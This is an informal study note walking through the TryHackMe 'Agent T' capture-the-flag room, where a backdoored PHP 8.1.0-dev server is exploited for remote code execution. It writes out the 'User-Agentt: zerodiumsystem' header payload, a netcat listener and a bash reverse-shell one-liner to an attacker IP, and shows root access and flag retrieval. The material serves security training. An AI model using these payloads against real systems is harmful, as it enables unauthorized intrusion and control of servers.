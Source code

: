 #WAPT-notes  

### Overview
- Example : let's say u're a agent as name "Agent T" & u got a task to test a webapp/website & everything is going well & u say that everything is working fine but u got a little vulnerability/issue. so the process from that little issue to `Remote Code Execution` , we'll see & we'll play as "Agent T" ✔
### what we'll learn
- process from the little issue/vulnerability to `Remote Code Execution`

---
### Topics - Explanation

- Reference : tryhackme.com/room/agentt

- <u>Define : Remote code Execution</u> : 
	- means any website or webapp is running on that system , access of that system can get to the attacker remotely & then that attacker can run the commands on victim's shell & this is dangerous vulnerability cuz remotely that server or system can be controlled ✔
	- so if this version of PHP i.e `8.1.0-dev` runs on a server an attacker can execute arbitrary code by sending the `User-Agentt header` means kinda we can open sudo shell ✔
	- so due to this issue , attacker can create impact/penetrate in large amount ✔

1) <u>Process from the little issue/vulnerability to `Remote Code Execution`</u>
	- STEP 1: go to this room & start the machine & copy the IP address as `10.10.49.29` 
	- STEP 2: in Kali Linux , already builtin VPN i.e openVPN , so start the VPN , so in terminal - `cd downloads` command then `openvpn EthicalSharmaji.ovpn`
	- STEP 3: in firefox , open that IP addresss & then once the webapp gets open then in message box , click on any message to check whether anything happen or not , so we clicked & nothing happen except we're getting hashtag in URL ✔
	- STEP 4: in terminal , start burpsuite as command `burpsuite` then off the intercept
		- STEP 4.1: in burpSuite , project Options > misc , check the box of `Allow Burp's browser to run without a sandbox` - means to run the burpSuite in sandbox & we can start the browser ✔
		- STEP 4.2: copy that IP address & open it inside burpsuite browser 
		- cuz mostly webapps comes Anuj Sir open them inside BurpSuite Browser , so that he can see/visibility of packets about what requests goes & what responses came in ✔
	- STEP 5: so in that webapp , when we click on anything then nothing will happen means URL just getting hashtag but once we come & click on "404 page"
		- output : of before clicking on other pages ![[WAPT-lecture-15-0.jpg]]
		- Output : of after clicked on 404 page ![[WAPT-lecture-15-1.jpg]]
		- here webapp name gets changed & "admin" profile name converted into something
		- so here `404 page` menu link has a problem & u can check others stuff to know whether any issues coming or not , if not coming then might be there is a issue in `404 page` ✔
	- STEP 6: in burpSuite , let's check the security error , so Target > Site Map , select that IP address folder & check any request of it 
		- checking a request & it's response ![[WAPT-lecture-15-2.jpg]]
		- & further u check inside Response then u'll not get anything
		- but here `x-powered by` is not seems good , so select `PHP/8.1.0-dev` & right click & copy it
		- STEP 6.1: in firefox , paste it & write this `PHP 8.1.0-dev exploits` & search it & this a method that if u get anything like version or server version or technology version then always search of exploits related to that version in order to know whether that vulnerability is big or small ✅
		- STEP 6.2: open these starting sites ![[WAPT-lecture-15-3.jpg]]
		- STEP 6.3: in 1st link , `PHP 8.1.0-dev` version is vulnerable for Remote Code Execution
		- STEP 6.4: in 2nd link `https://exploit-db.com/exploits/49933` , understanding what this exploit doing of this php version , so it's a python exploit ![[WAPT-lecture-15-4.jpg]]
		- so here the code `"User-Agentt : zerodiumsystem('" + cmd + "');"` means if we give User-Agentt & command with zerodiumsystem (here cmd - means could be any command) then the complete thing will execute the command  ✔
	- STEP 7: in BurpSuite , target > site map
		- inside the IP address folder ![[WAPT-lecture-15-2.jpg]]
		- STEP 7.1: right click on `Request` section & `send to repeater` 
		- STEP 7.2: in repeater tab , delete the value of `User-Agent` & change the key name as `User-Agentt` & expected value of the key should be `"zerodiumSystem('" + cmd + "')"` , so change the value of the key , so that burpsuite can understand
		- STEP 7.3: let's give the cmd as `hostname` cuz generally , PHP page application runs on Linux server & `hostname` is a linux command to check hostname✔
		- STEP 7.4: so in repeater tab , ultimately write this `User-Agentt` : `zerodiumsystem('hostname');` & click on `send` button ![[WAPT-lecture-15-5.jpg]]
		- so we got 200 Ok & hostname is 3FA6... which means `hostname` command is working , if u check `whoami` command then again we'll get output ![[WAPT-lecture-15-6.jpg]]
		- which means remotely we can run command on the linux server of that IP address. so whatever commands we're running , that command interacting with shell 
	- STEP 8: now our main goal to get the shell or flag , so for this , we have a extension [HackTools – Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) or u can google i.e "how to get the one liner reverse shell command of bash"
		- STEP 8.1: in that firefox extension , select bash icon & paste the IP address , u'll get the bash command , copy the command ![[WAPT-lecture-15-7.jpg]]
		- STEP 8.2: in terminal , run the command of netcat i.e `nc -lvnp 443` , so running netcat on port 443 cuz once that shell command we run then after execution of that command , shell will get ON ✔
		- STEP 8.3: paste that one liner command i.e `User-Agentt` : `zerodiumsystem('bash -c 'exec bash -1 &>/dev/tcp/10.17.41.167/443 <&1'');` like this ![[WAPT-lecture-15-8.jpg]]
		- STEP 8.4: click on `send` button & in terminal , we got the shell i.e ![[WAPT-lecture-15-9.jpg]]
		- STEP 8.5: write whoami to check whether folder is `root` or not like this `root@3f8655e43931:/var/www/html# whoami` , so we'll get root ✔![[WAPT-lecture-15-10.jpg]]
		- STEP 8.6: to find the flag , go to `cd/root` & run `ls`  -> then still not got , again run `ls -la` (`la` means might be the file in hidden form)
		- STEP 8.7: let's go out of "root" directory i.e `cd ..` & check path i.e `pwd` command , so we'll get `/` (which means we're in a starting directory of root where all the files & folder , including root folder also) & run `ls -la`
		- STEP 8.8: all commands which we used from STEP 8.5 till STEP 8.7 ![[WAPT-lecture-15-11.jpg]]
		- STEP 8.9: so we'll get flag.txt file , so run `cat flag.txt` & the value will come submit on `tryhackme.com/room/agentt`
### Summary : of process of RemoteCodeExecution ✔
- STEP 1) we got the finding where server or technology version is exposed
- STEP 2) via that technology version , we find out the exploits
- STEP 3) we got the exploit of Remote Code Execution & then we try to understood
- STEP 4) then we try to execute the command , so commands are executing
- STEP 5) whatever the commands are running , so via those commands how we can obtain/get the shell cuz attacker will also try to do the same

